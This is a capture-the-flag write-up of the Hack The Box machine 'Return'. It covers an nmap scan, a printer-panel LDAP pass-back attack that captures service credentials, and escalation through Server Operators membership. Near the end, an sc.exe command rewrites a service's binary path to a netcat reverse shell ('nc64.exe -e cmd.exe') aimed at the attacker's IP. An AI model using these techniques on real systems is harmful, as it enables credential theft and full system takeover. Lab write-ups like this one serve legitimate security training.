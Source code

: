 ```yaml
---
title: HTB - Return (Easy)
date: '2025-07-12'
tags: ['machine', 'windows', 'Active Directory', 'Pass-Back Attack', 'Server Operators']
draft: false
summary: Early recon reveals a web-based LDAP Server that allows for exfiltrating sensitive credentials and gaining user access, escalating privileges by identifying the user is a member of the Server Operators group
---
```


<TOCInline toc={props.toc} asDisclosure />

## Scanning

```
❯ nmap -sV -sC -v -Pn 10.129.95.241

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-12 20:07 +08
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 20:07
Completed NSE at 20:07, 0.00s elapsed
Initiating NSE at 20:07
Completed NSE at 20:07, 0.00s elapsed
Initiating NSE at 20:07
Completed NSE at 20:07, 0.00s elapsed
Initiating Connect Scan at 20:07
Scanning printer.return.local (10.129.95.241) [1000 ports]
Discovered open port 80/tcp on 10.129.95.241
Discovered open port 139/tcp on 10.129.95.241
Discovered open port 445/tcp on 10.129.95.241
Discovered open port 53/tcp on 10.129.95.241
Discovered open port 135/tcp on 10.129.95.241
Discovered open port 636/tcp on 10.129.95.241
Discovered open port 3268/tcp on 10.129.95.241
Discovered open port 3269/tcp on 10.129.95.241
Discovered open port 593/tcp on 10.129.95.241
Discovered open port 464/tcp on 10.129.95.241
Discovered open port 389/tcp on 10.129.95.241
Discovered open port 88/tcp on 10.129.95.241
Completed Connect Scan at 20:07, 0.31s elapsed (1000 total ports)
Initiating Service scan at 20:07
Scanning 12 services on printer.return.local (10.129.95.241)
Completed Service scan at 20:07, 8.65s elapsed (12 services on 1 host)
NSE: Script scanning 10.129.95.241.
Initiating NSE at 20:07
Completed NSE at 20:07, 10.63s elapsed
Initiating NSE at 20:07
Completed NSE at 20:07, 4.64s elapsed
Initiating NSE at 20:07
Completed NSE at 20:07, 0.00s elapsed
Nmap scan report for printer.return.local (10.129.95.241)
Host is up (0.017s latency).
Not shown: 988 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-12 12:26:14Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2025-07-12T12:26:19
|_  start_date: N/A
|_clock-skew: 18m34s

NSE: Script Post-scanning.
Initiating NSE at 20:07
Completed NSE at 20:07, 0.00s elapsed
Initiating NSE at 20:07
Completed NSE at 20:07, 0.00s elapsed
Initiating NSE at 20:07
Completed NSE at 20:07, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.57 seconds
```

Scanning shows that standard ports are opened including `445` and `80`.

---

## Recon

I already tested for SMB Anonymous access but doesn't work so let's check out the webpage.

![Description](/static/images/htb/windows/return/1.jpg)

We are met with what looks like a printer page. It also has a settings page some useful information. It
reveals a valid `username` and what looks like a password

![Description](/static/images/htb/windows/return/2.jpg)

Inspecting it using dev tools does not reveal the password, its just prefilled with asterisks

![Description](/static/images/htb/windows/return/3.jpg)

Even if we try to update the settings it doesn't really update it, checking Burp, we can see an
unusual parameter

![Description](/static/images/htb/windows/return/4.jpg)

This got me thinking, what if we replace the address with our own address and open up a listener at
the specific port which it is listening which is `389` which is also the LDAP port.

```shell
POST /settings.php HTTP/1.1
Host: return.local
Content-Length: 14
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://return.local
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://return.local/settings.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive

ip=10.10.14.32
```

This is called the [Pass-Back Attack](https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack)

![Description](/static/images/htb/windows/return/5.jpg)

And we received something that looks like a password, let us verify it along with WinRM access

![Description](/static/images/htb/windows/return/6.jpg)

---

## Gaining Access

annddd yes, we can definitely WinRM into `svc-printer` and can go ahead and grab the user flag

![Description](/static/images/htb/windows/return/7.jpg)

---

## Privilege Escalation

Runnning `whoami /priv` we can check for available privileges

![Description](/static/images/htb/windows/return/8.jpg)

We can see a lot of available privileges we can abuse such as SeBackupPrivilege, SeRestorePrivilege, SeLoadDriverPrivilege
but none of them will work. Why? because I already tried them and the only reason I could think of is Administrator is
probably not allowed to WinRM?

So I checked the Groups

![Description](/static/images/htb/windows/return/9.jpg)

`svc-printer` is a member of the `Server Operators` group which is not a vulnerability itself
but can be utilized by attackers to make changes in the domain that could escalate to system privileges

First we need to upload `netcat.exe` over to the target then list the available services

![Description](/static/images/htb/windows/return/10.jpg)

We will use the service "VMTools" and its binary path for this exploitation.

Replace the service binary with our uploaded netcat with a cmd reverse shell command

```
sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\nc64.exe -e cmd.exe 10.10.14.32 1234"
```

Start a listener. Then, stop the service and then start it again

```
sc.exe stop VMTools
sc.exe start VMTools
```

Our listener should catch the shell

![Description](/static/images/htb/windows/return/11.jpg)

Great! Now that we are SYSTEM, we can easily grab the root flag

```
type C:\Users\Administrator\Desktop\root.txt
```

![Description](/static/images/htb/windows/return/12.jpg)
